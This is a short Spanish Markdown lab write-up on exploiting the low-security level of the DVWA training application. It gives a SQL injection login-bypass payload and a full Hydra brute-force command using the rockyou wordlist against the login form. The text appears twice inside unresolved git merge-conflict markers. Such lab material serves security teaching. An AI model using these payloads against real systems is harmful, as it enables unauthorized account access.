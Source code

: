 <<<<<<< HEAD
# Explotación Nivel Bajo DVWA

## 1. SQL Injection (Bypass Login)

**Payload:** `admin' OR '1'='1' --`

**Ejecución:** Ingresar en campo `username`, dejar `password` vacío.

**Resultado:** Acceso como `admin` sin contraseña.

<img src="../../assets/BruteForceLow01.png">

## 2. Fuerza Bruta

### 2.1. Hydra

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=low:F=Username and/or password incorrect."
```

<img src="../../assets/BruteForceLow02.png">

Nota: Reemplazar <IP_SERVIDOR> y <TU_SESION>.

Resultado: Contraseña de admin.
=======
# Explotación Nivel Bajo DVWA

## 1. SQL Injection (Bypass Login)

**Payload:** `admin' OR '1'='1' --`

**Ejecución:** Ingresar en campo `username`, dejar `password` vacío.

**Resultado:** Acceso como `admin` sin contraseña.

<img src="../../assets/BruteForceLow01.png">

## 2. Fuerza Bruta

### 2.1. Hydra

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=low:F=Username and/or password incorrect."
```

<img src="../../assets/BruteForceLow02.png">

Nota: Reemplazar <IP_SERVIDOR> y <TU_SESION>.

Resultado: Contraseña de admin.
>>>>>>> 3ee9dae78212675254c9ae6119c9a23cd79a234f
